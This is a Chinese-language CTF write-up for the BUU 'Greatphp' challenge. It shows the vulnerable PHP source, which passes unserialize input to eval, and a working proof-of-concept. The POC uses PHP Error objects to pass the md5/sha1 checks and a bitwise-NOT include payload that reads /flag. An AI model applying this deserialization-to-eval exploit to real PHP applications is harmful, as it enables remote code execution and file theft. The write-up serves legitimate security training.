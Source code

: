```yaml
---
{"dg-publish":true,"title":"BUU_[极客大挑战 2020]Greatphp","dg-path":"安全/靶场/BUU_[极客大挑战 2020]Greatphp.md","permalink":"/安全/靶场/BUU_[极客大挑战 2020]Greatphp/","dgPassFrontmatter":true}
---
```


```php
<?php  
error_reporting(0);  
class SYCLOVER {  
    public $syc;  
    public $lover;  
  
    public function __wakeup(){  
        if( ($this->syc != $this->lover) && (md5($this->syc) === md5($this->lover)) && (sha1($this->syc)=== sha1($this->lover)) ){  
            if(!preg_match("/\<\?php|\(|\)|\"|\'/", $this->syc, $match)){  
                eval($this->syc);  
            } else {  
                die("Try Hard !!");  
            }  
  
        }  
    }  
}  
  
if (isset($_GET['great'])){  
    unserialize($_GET['great']);  
} else {  
    highlight_file(__FILE__);  
}  
  
?>
```


构造POC链：
```php
<?php  
error_reporting(0);  
class SYCLOVER {  
    public $syc;  
    public $lover;  
  
    public function __wakeup(){  
        if( ($this->syc != $this->lover) && (md5($this->syc) === md5($this->lover)) && (sha1($this->syc)=== sha1($this->lover)) ){  
            if(!preg_match("/\<\?php|\(|\)|\"|\'/", $this->syc, $match)){  
                eval($this->syc);  
            } else {  
                die("Try Hard !!");  
            }  
  
        }  
    }  
}  
  
$cmd = '/flag';  
//$s = urlencode(~$cmd);  
$str = "?><?=include~" . ~$cmd . "?>";  
  
$a=new Error($str,1);$b=new Error($str,2);  
$c = new SYCLOVER();  
$c->syc = $a;  
$c->lover = $b;  
echo(urlencode(serialize($c)));  
  
?>
```

注意这里绕过引号的技巧是利用取反`~`

这里 `$str = "?><?=include~" . ~$cmd . "?>";  ` 中为什么要在前面加上一个 `?>` 呢？因为 `Exception` 类与 `Error` 的 `__toString` 方法在eval()函数中输出的结果是不可能控的，即输出的报错信息中，payload前面还有一段杂乱信息“Error: ”：

```php
Error: payload in /usercode/file.php:2
Stack trace:
#0 {main}
```


进入eval()函数会类似于：`eval("...Error: <?php payload ?>")`。所以我们要用 `?>` 来闭合一下，即 `eval("...Error: ?><?php payload ?>")`，这样我们的payload便能顺利执行了。















